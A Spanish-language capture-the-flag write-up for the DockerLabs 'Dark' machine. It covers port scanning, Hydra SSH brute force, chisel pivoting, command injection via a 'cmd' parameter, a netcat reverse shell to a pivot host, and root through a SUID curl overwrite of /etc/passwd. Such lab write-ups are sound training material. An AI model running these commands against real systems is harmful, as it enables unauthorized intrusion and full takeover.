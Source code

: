 # Máquina Dark

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/Qft1jCjb#PlBLNl2jgetv_7jP9ycnsKnL4pabkeec55XWCXxbORk)

![imagen](https://github.com/user-attachments/assets/f4553d92-0867-4faf-bc13-b4422dbdd42d)


- **Nombre de la Máquina:** Dark
- **Sistema Operativo:** Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 10.10.10.2 y 20.20.20.3
- **Vulnerabilidades Explotadas:**
  - Fuerza bruta de credenciales FTP utilizando Hydra.
  - 

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 10.10.10.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/1e5327f1-4ade-4463-9277-7c2af2968486)

Nos reporta los puertos 22 y 80. Realizamos un escaneo más exhaustivo para ver qué servicios corren en cada puerto.

```bash
sudo nmap -p 22,80 -sCV 10.10.10.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/1a51ac2b-ac18-4cf0-8639-9f4af2b59bf6)

Como podemos extraer del reporte de nmap, disponemos de los servicios SSH y Apache.

En el puerto 80, vemos una página con un label y un botón en el que nos especifíca que ingresemos una URL.

![imagen](https://github.com/user-attachments/assets/84c3a062-4b39-483c-8935-be01097480fb)

Usaremos `gobuster` para ver ue directorios podemos encontrarnos en esta web.
```bash
gobuster dir -u 'http://10.10.10.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/user-attachments/assets/efe57f03-4831-4b2b-92b0-3244a6de2fe4)

Encontramos un directorio llamado `/info` el cuál si accedemos, pone lo siguiente:

![imagen](https://github.com/user-attachments/assets/2c8f6db7-3153-49b4-a95d-a64e7383d61d)

Tenemos el posible nombre de usuario **Toni**, vamos a urilizarlo para hacer fuerza bruta vía ssh.

### Fuerza bruta con hydra
Usaremos el nombre toni como parámetro de usuario y usaremos el rockyou como diccionario para la fuerza bruta.

```bash
hydra -l "toni" -P /usr/share/wordlists/rockyou.txt 10.10.10.2 ssh -t 64
```

![imagen](https://github.com/user-attachments/assets/ae82840a-7347-43d9-b407-b69d99b10609)

- Usuario: toni
- Password: banana

## Intrusión y Pivoting a máquina 20.20.20.3
Accedemos vía ssh al usuario toni, con el comando `hostname -I` podemos observar que tiene activa otra interfaz de red.

![imagen](https://github.com/user-attachments/assets/9a06c4fe-80eb-4720-a1f9-6e7db2448ccb)

No encuentro la manera posible de escalar privilegios a root en esta máquina, ni usando linpeas así que usaremos chisel para generar un tunel que redirija el tráfico de la máquina 20.20.20.3 a nuestra máquina atacante.
Nos pasamos chisel a la máquina 10.10.10.2 usando curl.

![imagen](https://github.com/user-attachments/assets/349c59d2-c61a-4ba3-bcca-2deeeeeaf305)

Ahora desde nuestra máquina nos pondremos en escucha con chisel.

```bash
./chisel_1.9.1_linux_arm64 server --reverse -p 443
```

![imagen](https://github.com/user-attachments/assets/e06e2a39-9845-4a58-a33c-0cb0f9449ee6)

Y en la máquina víctima con ip 10.10.10.2 crearemos el tunel para ver el tráfico de la red 20.20.20.3 desde nuestra ip 10.10.10.1:

```bash
./chisel client 10.10.10.1:443 R:socks
```

![imagen](https://github.com/user-attachments/assets/b6d572db-7854-433c-8346-6695230e4f9e)

![imagen](https://github.com/user-attachments/assets/7faff50f-2c2b-4a04-ab1e-cd8638e86b08)

Genial ya nos funciona como nos decía que tenia una web donde había subido la base de datos de la DGT etc…,vamos a configurar foxyproxy para acceder a la web de esa IP.

![imagen](https://github.com/user-attachments/assets/30beb3ea-1af9-4e44-ad89-c8d8c04bcb93)

Ahora podremos acceder al sitio web 20.20.20.3

![imagen](https://github.com/user-attachments/assets/84131226-e941-4a1d-9ab9-0f8664271249)

Usaremos Gobuster para encontrar posibles directorios dentro de esta web.

```bash
sudo gobuster dir -u 'http://20.20.20.3/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt --proxy socks5://127.0.0.1:1080
```

![imagen](https://github.com/user-attachments/assets/bf853816-8e9c-4561-9451-e10623589752)

No encontramos nada interesante que no hayamos visto ya, pero haciendo un poco de investigación me doy cuenta de que existe un parámetro llamado cmd en el código fuente de la página.

![imagen](https://github.com/user-attachments/assets/17db05d9-af26-4789-b3a8-6ce9c2dd97e1)

Por curiosidad introduzco el comando `whoami` y me dice `www-data`, así que ya tenemos la manera de mandarnos una reverse shell y trabajar más comodamente, pero la reverse shell deberemos mandarla a la máquina 20.20.20.2 que sería la del usuario toni.
Nos pondremos en escucha por el puerto 1010.

```bash
nc -nlvp 1010
```
```bash
nc 20.20.20.2 1010 -e /bin/bash
```

![imagen](https://github.com/user-attachments/assets/cd1d7326-51c0-4318-8ea1-401b3a3b261b)


![imagen](https://github.com/user-attachments/assets/dc2d405b-3da2-4ad5-8765-87136ef86c07)

## Escalada de privilegios en máquina 20.20.20.3
Encontramos que tenemos permisos SUID usando el comando curl, por lo que se me ocurre es copiar y pegar el `/etc/passwd` para modificarlo y quitarle la X a root.

![imagen](https://github.com/user-attachments/assets/a199db2d-9f62-44fb-87bc-0ef51f8b45e6)

```bash
cp /etc/passwd .
nano passwd
```

![imagen](https://github.com/user-attachments/assets/ad5c9361-d678-4ab9-90cd-4be580b5130f)

```bash
curl file:///tmp/passwd -o /etc/passwd
```

![imagen](https://github.com/user-attachments/assets/855b4c6b-b5f8-4f3c-9fd3-29c5f848e554)

Ahora tan solo ejecutando el comando `su root` nos convertiremos en usuario root y habremos completado la máquina al completo.

![imagen](https://github.com/user-attachments/assets/720a0580-3a66-48f1-a98c-66c7b582b677)

